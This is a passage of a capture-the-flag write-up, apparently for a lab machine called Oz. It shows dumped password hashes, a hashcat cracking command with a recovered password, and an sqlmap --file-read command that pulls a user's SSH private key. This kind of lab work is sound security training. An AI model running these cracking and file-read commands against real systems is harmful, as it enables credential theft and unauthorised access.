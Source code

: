 ```                            
| 4  | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY | coward.lyon |
| 5  | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg | toto        |
| 6  | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ | admin       |
+----+----------------------------------------------------------------------------------------+-------------+
```

Trying to crack the hashes with **Hashcat** after formatting them accordingly:
```
sha256:5000:aA3h3LvXOseYk3IupVQKgQ:ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
(...)
```
```
hashcat -m 10900 ozdb.hash /usr/share/wordlists/rockyou.txt
```

After a while the hash of the user _wizard.oz_ gets cracked:
> wizardofoz22

Contents of table _tickets_gbw_:
```
Table: tickets_gbw
[12 entries]
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
| id | name     | desc                                                                                                                           |
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
| 1  | GBR-987  | Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.                                                              |
(...)
| 8  | GBR-7945 | Dorthi should be able to find her keys in the default folder under /home/dorthi/ on the db.                                    |
(...)
| 12 | GBR-9872 | db information loaded to ticket application for shared db access                                                               |
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
```

The most important information in _tickets_gbw_ is that _dorthi_ stores SSH keys in _/home/dorthi_.
It is possible to download files from the system with **SQLmap**:
```
sqlmap -r oz_webapi.req --file-read /home/dorthi/.ssh/id_rsa
```
```
cat /root/.sqlmap/output/10.10.10.96/files/_home_dorthi_.ssh_id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,66B9F39F33BA0788CD27207BF8F2D0F6

(...)
```
